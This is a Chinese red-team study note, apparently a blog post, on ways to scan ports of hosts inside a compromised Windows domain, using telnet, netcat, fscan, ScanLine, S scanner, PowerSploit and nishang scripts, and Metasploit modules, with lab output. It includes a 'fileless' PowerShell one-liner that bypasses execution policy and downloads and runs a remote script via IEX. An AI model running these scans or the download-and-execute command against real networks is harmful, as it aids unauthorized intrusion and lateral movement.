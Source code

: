 ```yaml
---
title: 【内网学习笔记】域内主机端口探测的一些方法总结
date: 2021-03-17 20:18:58
id: 210317-201858
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


> 注：本文中的工具均来源自互联网，后门自查。

在进入目标域后，对域内存活主机进行端口探测是经常要做的一步，在此记录一些常见的方法。

## 1、Telnet

如果想探测某台主机的某个端口是否开放，直接使用 telnet 命令是最方便的。

```
C:\Users\daniel10>telnet dc 80
正在连接dc...无法打开到主机的连接。 在端口 80: 连接失败

C:\Users\daniel10>telnet 192.168.7.7 443
正在连接192.168.7.7...无法打开到主机的连接。 在端口 443: 连接失败
```

## 2、nc

素有瑞士军刀之称的 nc 也是可以拿来做端口探测的。

nc 下载地址：[https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

```
nc.exe -vv 192.168.7.7 3389
```

```
C:\Users\daniel10>nc.exe -vv 192.168.7.7 3389
DNS fwd/rev mismatch: DC != DC.teamssix.com
DC [192.168.7.7] 3389 (ms-wbt-server) open
```

拿来进行多个端口扫描也是可以的，就是扫描速度有点慢

```
nc.exe -rz -w 2 -vv 192.168.7.7 0-65535

-r 随机指定本地与远端主机的通信端口
-z 使用0输入/输出模式，只在扫描通信端口时使用
-w<超时秒数> 设置等待连线的时间
```

```
C:\Users\daniel10>nc.exe -rz -w 2 -vv 192.168.7.7 443-445
DNS fwd/rev mismatch: DC != DC.teamssix.com
DC [192.168.7.7] 444 (?): TIMEDOUT
DC [192.168.7.7] 443 (https): TIMEDOUT
DC [192.168.7.7] 445 (microsoft-ds) open
sent 0, rcvd 0
```

## 3、fscan

影舞者大佬写的一款工具，使用起来感觉很是方便，项目地址：[https://github.com/shadow1ng/fscan](https://github.com/shadow1ng/fscan)

```
fscan.exe -h 192.168.7.7 -p 22,445
```

```
C:\Users\daniel10>fscan.exe -h 192.168.7.7 -p 22,445

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.5.1
scan start
(icmp) Target '192.168.7.7' is alive
icmp alive hosts len is: 1
192.168.7.7:445 open
[+] 192.168.7.7 MS17-010        (Windows Server 2008 R2 Datacenter 7601 Service Pack 1)
scan end
```

## 4、ScanLine

McAfee 出品的一款经典的端口扫描工具，ScanLine 项目地址：[www.mcafee.com/us/downloads/free-tools/termsofuse.aspx](www.mcafee.com/us/downloads/free-tools/termsofuse.aspx)

但是项目地址的下载按钮貌似失效了，其他的下载地址：[https://www.lanzous.com/i32zncf](https://www.lanzous.com/i32zncf)

```
scanline.exe -h -t 22,80,445,3389 -p 192.168.7.7
```

```
C:\Users\daniel10>scanline.exe -h -t 22,80,445,3389 -p 192.168.7.7

ScanLine (TM) 1.01
Copyright (c) Foundstone, Inc. 2002
http://www.foundstone.com
Scan of 1 IP started at Wed Feb 24 21:31:11 2021
-------------------------------------------------------------------------------
192.168.7.7
Responds with ICMP unreachable: No
TCP ports: 445 3389
-------------------------------------------------------------------------------
Scan finished at Wed Feb 24 21:31:15 2021
1 IP and 4 ports scanned in 0 hours 0 mins 4.03 secs
```

## 5、S 扫描器

S 扫描器支持大网段扫描，扫描速度也很快，是比较早期的一款扫描工具了，比较适合运行在 Windows Server 2003 以下版本的操作系统中，下载地址：[https://pan.baidu.com/s/1gdGM4F5](https://pan.baidu.com/s/1gdGM4F5)

> 值得提一句的是在我下载该工具到本地后，火绒立马给它删了，而其他的扫描工具火绒都没告警。

```
s.exe tcp 192.168.7.7 22,80,443,445 7
```

```
C:\Users\daniel10>s.exe tcp 192.168.7.7 22,80,443,445 7
TCP Port Scanner V1.1 By WinEggDrop

Normal Scan: About To Scan 4 Ports Using 7 Thread
192.168.7.7      445   Open
Scan 192.168.7.7 Complete In 0 Hours 0 Minutes 3 Seconds. Found 1 Open Ports
```

## 6、PowerShell 脚本

### PowerSploit

PowerSploit 的 Invoke-Portscan 脚本下载地址：[https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1)

无文件形式（推荐）

```
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1');Invoke-Portscan -Hosts 192.168.7.7 -T 4 -ports '445,1433,80,8080,3389'"
```

> 如果报错，估计是网络的问题

有文件形式

```
powershell.exe -exec bypass -Command "Import-Module ./Invoke-Portscan.ps1;Invoke-Portscan -Hosts 192.168.7.7 -T 4 -ports '445,1433,80,8080,3389'"
```

```
C:\Users\daniel10>powershell.exe -exec bypass -Command "Import-Module ./Invoke-Portscan.ps1;Invoke-Portscan -Ho
sts 192.168.7.7 -T 4 -ports '445,1433,80,8080,3389'"

Hostname      : 192.168.7.7
alive         : True
openPorts     : {445, 3389}
closedPorts   : {8080, 80, 1433}
filteredPorts : {}
finishTime    : 2021/2/24 下午 21:14:06
```

### nishang

nishang 的 Invoke-Portscan 脚本下载地址：[https://raw.githubusercontent.com/samratashok/nishang/0090ba2e51b7503c3245081894c0fc87b696f941/Scan/Invoke-PortScan.ps1](https://raw.githubusercontent.com/samratashok/nishang/0090ba2e51b7503c3245081894c0fc87b696f941/Scan/Invoke-PortScan.ps1)

```
 Invoke-PortScan -StartAddress 192.168.7.7 -EndAddress 192.168.7.7 -ScanPort -Port 80,443,445
```

```
PS C:\Users\daniel10> Import-Module .\Invoke-Portscan.ps1
PS C:\Users\daniel10> Invoke-PortScan -StartAddress 192.168.7.7 -EndAddress 192.168.7.7 -ScanPort -Port 80,443,445

IPAddress   HostName Ports
---------   -------- -----
192.168.7.7          {445}
```

## 7、MSF

万能的 MSF 自然也是能够进行端口探测的，MSF 中用于端口探测的模块有：

```
auxiliary/scanner/portscan/ack          TCP ACK端口扫描
auxiliary/scanner/portscan/ftpbounce    FTP bounce端口扫描
auxiliary/scanner/portscan/syn         	SYN端口扫描
auxiliary/scanner/portscan/tcp          TCP端口扫描  
auxiliary/scanner/portscan/xmas         TCP XMas端口扫描
……
```

除了上述工具外，还有 nmap、masscan 什么的就不多说了，读者如果感兴趣可以自行尝试玩玩。

> 参考文章：
>
> [https://pingmaoer.github.io/2020/03/30/%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86%E4%B8%80/](https://pingmaoer.github.io/2020/03/30/%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86%E4%B8%80/)
>
> 更多信息欢迎关注我的微信公众号：TeamsSix

![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)